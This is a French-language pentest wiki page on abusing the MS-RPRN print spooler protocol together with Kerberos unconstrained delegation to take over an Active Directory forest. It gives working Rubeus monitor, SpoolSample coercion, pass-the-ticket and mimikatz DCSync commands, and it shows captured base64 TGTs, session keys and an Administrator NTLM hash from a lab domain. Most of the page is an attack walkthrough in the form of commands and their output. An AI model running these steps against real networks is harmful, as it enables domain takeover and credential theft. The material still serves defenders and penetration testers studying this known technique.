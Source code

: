 ```yaml
---
title: MS-RPRN
permalink: /MS_RPRN/
---
```


# MS-RPRN

MS-RPRN est un protocole utilisé pour les printers. Il est cependant utilisable pour obtenir un accès administratif dans une forêt ou **sur une autre forêt avec laquelle on un trust**. (Voir [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)).

## Exploitation

L'exploitation utilise les éléments suivants:
- Un accès administratif sur un serveur avec **Unconstrained Delegation**. Par défaut ceci est le cas de tous les contrôleurs de domaine (serveur **CHOCOBO.goldsaucer.local**).
- Un serveur ciblé (serveur **MIDGAR.shinra-inc.local**)
- Il doit y avoir un accès réseau entre les deux serveurs et un trust bidirectionnel si les deux serveurs sont dans des domaines différents (y compris des forêts différentes)
- [Rubeus](https://github.com/GhostPack/Rubeus) et [SpoolSample](https://github.com/leechristensen/SpoolSample) à compiler et mimikatz.

Sur le serveur Chocobo.goldsaucer.local lancer:

``` 
.\Rubeus.exe monitor /interval:5
```

Ce script dumpera tout TGT obtenu par le serveur (ce qui arrivera en raison de l'unconstrained delegation). Laisser tourner et lancer dans un autre terminal:

``` 
.\SpoolSample.exe MIDGAR.shinra-inc.local CHOCOBO.goldsaucer.local
```

Ce second script va utiliser le service MS-RPN pour forcer le serveur MIDGAR à s'authentifier auprès du serveur contrôlé (CHOCOBO). En raison de l'unconstrained delegation, le serveur MIDGAR va envoyer son TGT dans le ticket de service Kerberos. Sur le cmd Rubeus on devrait avoir:

```
[+] 02/12/2018 21:58:26 - 4624 logon event for 'SHINRA-INC\MIDGAR$' from '192.168.80.100'
[*] Target LUID     : 0x2987c3
[*] Target service  : krbtgt

  UserName                 : MIDGAR$
  Domain                   : SHINRA-INC
  LogonId                  : 2721731
  UserSID                  : S-1-5-21-227358413-259298668-3497230074-1001
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 02/12/2018 21:58:26
  LogonServer              :
  LogonServerDNSDomain     : SHINRA-INC.LOCAL
  UserPrincipalName        :

    ServiceName              : krbtgt/SHINRA-INC.LOCAL
    TargetName               :
    ClientName               : MIDGAR$
    DomainName               : SHINRA-INC.LOCAL
    TargetDomainName         : SHINRA-INC.LOCAL
    AltTargetDomainName      : SHINRA-INC.LOCAL
    SessionKeyType           : aes256_cts_hmac_sha1
    Base64SessionKey         : Uhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAXGUypKME=
    KeyExpirationTime        : 01/01/1601 00:00:00
    TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
    StartTime                : 02/12/2018 21:58:26
    EndTime                  : 03/12/2018 06:56:52
    RenewUntil               : 09/12/2018 20:56:52
    TimeSkew                 : 0
    EncodedTicketSize        : 1372
    Base64EncodedTicket      :

      doIFWDCCBVSgAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
      cmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESoQMCAQKiggPwBIID7FszyHoAYZaQks5oJ8sTbwBtBXG3J+eadLQ/
      ueVE52c/ejXEd8z2YVTpOeN/FPsDUYABuxH4LJbD/dKxAfQNeuTmJUg4frHWqDvOarlmqc1MpQYqVCdY6JReEBNl30N67CycgGHs
      KbtOFhX80YlZrKFYHB1E2gSqIOhetLZydr7DwcAu5sF+NUFmoVc5efCuiJEDmUSp404r+TKf809sQ/v7IFm4ZYioRVPdfD+cQtLY
      OuHgErLFvrH9JRRF2/P9SNE4rvK+lmU8OEQWUnXfRMNKDOzd3Kigq0evkshDX8B7cCX47orK7Gm1YMxSTQrRjyaPl0DFbFOkd1Kj
      Q6QTdqgKkWjKFlAM6IvaB3hzNQv5ZLy3Bx8alkIm89gdR6xxkFx7ta81HSgEB2oDr5YxnSBXcXHUjDWaY3YSo2+Cgi5b8Ck4n932
      H75me2jVSccRajYWZbzjysnB6yGtnv/BivvbjjKWeFJKUdy8Xvh4zwWMiqBjj2tARGKK1XmJCBtehb3t/6GQhVcO6reZl6iS5WOm
      Q1JuASP1iAfQimKnBzljm1wo7dac/sWtCYAL78mkE8HK2phECwlxZ38dUp/yPXxRQ+Z6lCSfxsEF4XfmXDpxBGeNWpd+uvjfXexk
      Qe/Kml6Jwc8W5BGgP/IVlU4c/fPUijKjyXQIMnJZRyeDB32ujYOQb63dwTDWuxo6WTHQapzzoGZm5XAUKikbH+EdKKM4r4qxQ8XP
      8wUbGPppU7pSFN+ZgUtvLLYDV2Md/6ztEzQrRP0rd2uPLYXT6nef75VjR9UEKA1Gjxo8WvyvaXZdRKJQdvi4eWOr4luq3Re70/hF
      Fb8FccI8sEgpS9075dmEEKWgcEt3223ZBwBSbOqF6Emg0wQBypWfEquub57axbdsDop4557YSqliDXGd1DhvWENCGez4nPM4NQYj
      h3X0WeaKC03noJlqiWqXMnYUAoq7Cdo5OCvYORj8XT8eMV9vDXRe16wZVDvcUfqJnLa0605rNZwuX6adkLlre+G7rsJE7UReb6J0
      nnXxJwYHGq0QjilKJp5LX3AB1CexixZdkgxgnXgieQPOUsUton77/OFigcLQKk1/sfY6Qg+wSUxh9kGYCigqFultUp4s6E9cKeSG
      7w+Yb3Kty9XoxCCGAzF5gW2OU58gdHGk5qY+9d8YR35R5C9DLhY3tbtm8+Z1tYeyRUWw0k+Hi1Fwzm4qa0SyNTcFDI6xLmxUtnzJ
      Ce/oN3drOO25QwnLtEPhyBE3UK1RWAaBWetWKFLzAwv8hCyG288MU/8lPMqDXKkddHY43JlCIZzXOlO0X0KmKdJMaEVUUXf0V28h
      ZX/lo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgUhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAX
      GUypKMGhEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMTU4MjZa
      phEYDzIwMTgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmty
      YnRndBsQU0hJTlJBLUlOQy5MT0NBTA==

[*] Extracted  1 total tickets
```

On peut alors utiliser mimikatz (ou autre) pour faire un DCsync en utilisant le TGT récupéré. Rubeus permet de faire un pass the ticket:

```
.\Rubeus.exe ptt /ticket:doIFWDCCBVSgAwIBBaEDAgEWooIEU
jCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESo
QMCAQKiggPwBIID7F+UEe4HvHR188pbTGRg6+Smi1g5oGhtGqLSUYkDc/bViq8CfwcY2R9FgMqLoTUjUyjFXtsUvTUvoJ8boq7xt4LeUi6+JaCICTZsWy/DG
uisnNpZat1IOP5If7pvJPWwyZApWUMQfK21AHv4T/9lCes6Ilqk3ml3UX+l+rvJjIOxs3To/yhBZuWsxpaTsmg+FIyhY1HpsFuoMIP1GxPKDHuWKeKfOGHxG
2llYZp68f8Je6NpU120XdQC/dBbn2mY972fBfJfD4IpB7QkSAFHkX+vdEFUq4zIk+k/ge8fp4IZSIXzYEn+Bs3i1NqH0XRM23MoALD+h+HhX4bTaYMUeX3mr
W/Eg1mAwIwcDyqUjXT1vcwYNgoOUWKvondsKQBEEGB6VC2eiCFAdEoRSYpNNc8RBB0KPJ87zGLH4zBr6YNuAFj0RAW0WrNL5kImj6LfkUJ7fA+8L30/lqQ/M
/ryOlF43XZ35EuYZr+EADpWmNZgJ0kGyJQH5260xaPqPzrszlMgIqf25ZtplWU3hgYEGnkPtSPqDCfN+OpscSjBylASuzoPglF/2mWNbOoB0LgjUig9apACC
kRjDZhi21BI13RJHLntlzAwQhyUPv648RCPXFfW5wqxrUdzr1FZuPko0ms6hBntCC/FjHRLFElKdSrAGFWxiUE4FFrz9Urn0TsmpbHpzLE0oNpbKqWoC88x4
FNdWoGTRSOQl4syeMrzmpYTVLsCc5J2hQmk+oX2YaewfeEs1yRDWJt8WnHrCUUap04pIFewdlwnG5ojQJuGZuDtsTrBNkRLjcEoYxzmNrMMHYd/OMql30siW
k9Rrpn9lDX7P68fgC1R5rG/1ZyVXPvdcHEQO3i5QWPWF2gmjDznXBroMTOd4cxRZDllWaSPH77RJ7g0eOZLKRW3fd4AVNJBShZ6BqwK1xbhrne9OuBIf/1PE
k77F628T2dJ4H6mG/jnbdih92yQkXOiAYlcpkUBK4I7e/6mKeHt4egHGk0vPjw8u4wu7WGQtFGo9uE1euhELm+Q6l5zlAVLd7rb2vAVPqruFntssfe4RlKse
yN/V+kVteIyAf4u7lyEC64JEjVJHJN2BhrUcFjMY7XzhWKqnubR3zpr7ruk7rxwfP1DC6VbeHwo/GWWbIkn3TMo98NaBSUP0h7UqKtN6WOko8us6LfpBZAOx
ylnFaBS+Erfz4OPD5tlivR0EXFVp6hvKjHb9mfSdtOqAAKaGXV/1NULPUIVtgbyWnDKbj1S6f7wypzBHAnrfWJjfP3EeoNmZt4Xq1xcioEu1ZKYQTOMmfvW7
Epomgc8yidpJHQMb2VJtwVXhuyOGmwvXAVgo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgv+cfRiBxpphRN8cgCT5Khg3K5
uYK/oaeXVxIm8hTuWehEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMDU2NTJaphEYDzIwM
TgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmtyYnRndBsQU0hJTlJBLUlOQy5MT0NBT
A==

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.2.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

On peut alors faire un dcsync avec mimikatz (ici on récupère le hash de Administrator, mais on pourrait récupérer celui de krbtgt):

```
.\mimikatz.exe "lsadump::dcsync /domain:SHINRA-INC.local /user:SHINRA-INC\Administrator"

  .#####.   mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:SHINRA-INC.local /user:SHINRA-INC\Administrator
[DC] 'SHINRA-INC.local' will be the domain
[DC] 'MIDGAR.SHINRA-INC.local' will be the DC server
[DC] 'SHINRA-INC\Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 00:00:00
Password last change : 01/12/2018 21:45:58
Object Security ID   : S-1-5-21-227358413-259298668-3497230074-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: d961c5ec5be55f242a4e0671d364fda4
```

## Références
### Outils
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample) 
### Articles
- [Not A Security Boundary: Breaking Forest Trusts (SpecterOps)](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
- [Domain Controller Print Server + Unconstrained Kerberos Delegation = Pwned Active Directory Forest (ADSecurity)](https://adsecurity.org/?p=4056)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
